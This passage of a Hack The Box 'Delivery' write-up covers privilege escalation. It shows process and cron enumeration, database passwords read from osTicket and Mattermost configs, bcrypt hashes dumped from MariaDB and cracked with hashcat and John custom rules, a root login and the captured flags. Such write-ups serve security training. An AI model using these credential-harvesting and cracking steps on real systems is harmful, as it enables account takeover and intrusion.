tcp6       0      0 ::1:631                 :::*                    LISTEN      -                                    
tcp6       0      0 :::8065                 :::*                    LISTEN      -

[+] Active root processes
Processes
maildeliverer@Delivery:~/.gnupg/crls.d$ ps -aux | grep root | grep -v '\['
root         1  0.0  0.2 103856 10004 ?        Ss   14:19   0:02 /sbin/init
root       258  0.0  0.2  26516  8672 ?        Ss   14:19   0:00 /lib/systemd/systemd-journald
root       279  0.0  0.1  22700  5324 ?        Ss   14:19   0:00 /lib/systemd/systemd-udevd
root       441  0.0  0.2  48228 10576 ?        Ss   14:19   0:00 /usr/bin/VGAuthService
root       442  0.0  0.2 122852 12084 ?        Ssl  14:19   0:03 /usr/bin/vmtoolsd
root       482  0.0  0.0   8504  2740 ?        Ss   14:19   0:00 /usr/sbin/cron -f
root       484  0.0  0.1  19392  7220 ?        Ss   14:19   0:00 /lib/systemd/systemd-logind
root       487  0.0  0.8 266500 33716 ?        Ss   14:19   0:00 php-fpm: master process (/etc/php/7.3/fpm/php-fpm.conf)
root       489  0.0  0.1 225824  4368 ?        Ssl  14:19   0:00 /usr/sbin/rsyslogd -n -iNONE
root       499  0.0  0.1  15852  6740 ?        Ss   14:19   0:00 /usr/sbin/sshd -D
root       507  0.0  0.0   5612  1720 tty1     Ss+  14:19   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
avahi      508  0.0  0.0   8156   320 ?        S    14:19   0:00 avahi-daemon: chroot helper
root       509  0.0  0.3 182936 12792 ?        Ssl  14:19   0:00 /usr/sbin/cups-browsed
root       531  0.0  0.0  67848  1816 ?        Ss   14:19   0:00 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
root       634  0.0  0.1  29212  7996 ?        Ss   14:19   0:00 /usr/sbin/cupsd -l
root       867  0.0  0.4  28608 17356 ?        S    14:20   0:00 python3 /root/py-smtp.py
maildel+ 28948  0.0  0.0   6208   888 pts/0    R+   15:49   0:00 grep root

[+] Binary processes permissions
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes
1.5M -rwxr-xr-x 1 root       root       1.5M Oct 24  2020 /lib/systemd/systemd
144K -rwxr-xr-x 1 root       root       143K Oct 24  2020 /lib/systemd/systemd-journald
228K -rwxr-xr-x 1 root       root       227K Oct 24  2020 /lib/systemd/systemd-logind
 56K -rwxr-xr-x 1 root       root        55K Oct 24  2020 /lib/systemd/systemd-timesyncd
664K -rwxr-xr-x 1 root       root       663K Oct 24  2020 /lib/systemd/systemd-udevd
 85M -rwxrwxr-x 1 mattermost mattermost  85M Dec 18 08:53 /opt/mattermost/bin/mattermost
 64K -rwxr-xr-x 1 root       root        64K Jan 10  2019 /sbin/agetty
   0 lrwxrwxrwx 1 root       root         20 Oct 24  2020 /sbin/init -> /lib/systemd/systemd
236K -rwxr-xr-x 1 root       root       236K Jul  5  2020 /usr/bin/dbus-daemon[0m
132K -rwxr-xr-x 1 root       root       129K Oct  9  2019 /usr/bin/VGAuthService
 56K -rwxr-xr-x 1 root       root        56K Oct  9  2019 /usr/bin/vmtoolsd
 56K -rwxr-xr-x 1 root       root        55K Oct 11  2019 /usr/sbin/cron
184K -rwxr-xr-x 1 root       root       183K Apr 10  2019 /usr/sbin/cups-browsed
448K -rwxr-xr-x 1 root       root       447K Nov 28 06:09 /usr/sbin/cupsd
 20M -rwxr-xr-x 1 root       root        20M Nov 25 04:50 /usr/sbin/mysqld
688K -rwxr-xr-x 1 root       root       686K Feb 26  2019 /usr/sbin/rsyslogd
792K -rwxr-xr-x 1 root       root       789K Jan 31  2020 /usr/sbin/sshd
```

Cron:

```bash
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
                                                                                                                     
* * * * *       root    /root/mail.sh

2021/04/26 15:55:01 CMD: UID=0    PID=29088  | pgrep -f py-smtp.py
```

Hunted credentials to login within mysql:

```bash
maildeliverer@Delivery:/var/www/osticket$ cat ./upload/include/ost-config.php
...
# Encrypt/Decrypt secret key - randomly generated during installation.
define('SECRET_SALT','nP8uygzdkzXRLJzYUmdmLDEqDSq5bGk3');

#Default admin email. Used only on db connection issues and related alerts.
define('ADMIN_EMAIL','maildeliverer@delivery.htb');

# Database Options
# ---------------------------------------------------
# Mysql Login info
define('DBTYPE','mysql');
define('DBHOST','localhost');
define('DBNAME','osticket');
define('DBUSER','ost_user');
define('DBPASS','!H3lpD3sk123!');

# Table prefix
define('TABLE_PREFIX','ost_');
...

maildeliverer@Delivery:/opt/mattermost/config$ cat config.json | grep -i sql -C5
        "DesktopLatestVersion": "",
        "DesktopMinVersion": "",
        "IosLatestVersion": "",
        "IosMinVersion": ""
    },
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
```

## Dumping and cracking MySQL hashes using custom rules

Logged within mysql using hunted credentials and extracted password hashes:

```bash
maildeliverer@Delivery:/var/www/osticket$ mysql -u ost_user -p -D osticket
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 108
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [osticket]>
...
MariaDB [osticket]> select username,passwd,email,isadmin from ost_staff;
+---------------+--------------------------------------------------------------+----------------------------+---------+
| username      | passwd                                                       | email                      | isadmin |
+---------------+--------------------------------------------------------------+----------------------------+---------+
| maildeliverer | $2a$08$VlccTgoFaxEaGJnZtWwJBOf2EqMW5L1ZLA72QoQN/TrrOJt9mFGcy | maildeliverer@delivery.htb |       1 |
+---------------+--------------------------------------------------------------+----------------------------+---------+
1 row in set (0.000 sec)
...

maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 132
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)
...
MariaDB [mattermost]> select username, Password from Users;
+----------------------------------+--------------------------------------------------------------+
| username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| maoutis                          | $2a$10$n5KAvICmMNkb.p2v6GykTelCuchClta2OY/c5H2owWZJBjBgPZY8e |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.000 sec)
```

Cracked the corresponding password for the root user using hashcat custom rules (variation of PleaseSubscribe!):

[Hob0Rules/d3adhob0.rule at master · praetorian-inc/Hob0Rules](https://github.com/praetorian-inc/Hob0Rules/blob/master/d3adhob0.rule)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ hashid '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
Analyzing '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ hashid maildeliverer-admin.passwd 
--File 'maildeliverer-admin.passwd'--
Analyzing '$2a$08$VlccTgoFaxEaGJnZtWwJBOf2EqMW5L1ZLA72QoQN/TrrOJt9mFGcy'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
--End of file 'maildeliverer-admin.passwd'-- 

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ echo 'PleaseSubscribe!' > base_passwords

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ cat mattermost-hashes.passwd| grep root > root.passwd

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ hashcat root.passwd base_passwords -m3200 -r d3adhob0.rule --force --username --separator ":"
hashcat (v6.1.1) starting...
...
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
...
```

Cracked the corresponding password for the root user using john custom rules:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ sudo nano /etc/john/john.conf
...
[List.Rules:Custom]
:
# Add one number
$[0-9]
# Add one number and a sybol
$[0-9]$[$%^&*()\\-_+=|\<>\[\]{}#@/~]
# Add two number
$[0-9]$[0-9]
# Add two number and a symbol
$[0-9]$[0-9]$[$%^&*()\\-_+=|\<>\[\]{}#@/~]
...

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ john root.passwd --wordlist=base_passwords --rules=Custom --fork=5                
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Node numbers 1-5 of 5 (fork)
Each node loaded the whole wordfile to memory
Press 'q' or Ctrl-C to abort, almost any other key for status
PleaseSubscribe!21 (root)
3 1g 0:00:00:02 DONE (2021-04-27 04:09) 0.3906g/s 19.92p/s 19.92c/s 19.92C/s PleaseSubscribe!11..PleaseSubscribe!21
2 0g 0:00:00:16 73.37% (ETA: 04:09:49) 0g/s 22.93p/s 22.93c/s 22.93C/s PleaseSubscribe!68@..PleaseSubscribe!69\
4 0g 0:00:00:16 74.04% (ETA: 04:09:49) 0g/s 23.07p/s 23.07c/s 23.07C/s PleaseSubscribe!69>..PleaseSubscribe!70^
5 0g 0:00:00:16 75.86% (ETA: 04:09:49) 0g/s 23.62p/s 23.62c/s 23.62C/s PleaseSubscribe!71{..PleaseSubscribe!72*
1 0g 0:00:00:16 73.92% (ETA: 04:09:49) 0g/s 23.07p/s 23.07c/s 23.07C/s PleaseSubscribe!69=..PleaseSubscribe!69~
Waiting for 4 children to terminate
Session aborted
```

Changed account to super user:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Delivery]
└─$ ssh maildeliverer@10.10.10.222
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Apr 26 18:31:05 2021 from 10.10.14.24
maildeliverer@Delivery:~$ su root
Password: 
root@Delivery:/home/maildeliverer# whoami && hostname && cat /root/root.txt && ip a
root
Delivery
1df26a288718072c85da8349534ed570
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:cb:0a brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.222/24 brd 10.10.10.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:cb0a/64 scope global dynamic mngtmpaddr 
       valid_lft 86036sec preferred_lft 14036sec
    inet6 fe80::250:56ff:feb9:cb0a/64 scope link 
       valid_lft forever preferred_lft forever
```



# Trophy

>[!quote]
>As always we start with nmap... but it can take a while so I've already ran it
>
>\- ippsec

>[!success]
>**User.txt**
>a2add3796a19f517e71fd9f05d27a9ff

>[!success]
>**Root.txt**
>1df26a288718072c85da8349534ed570

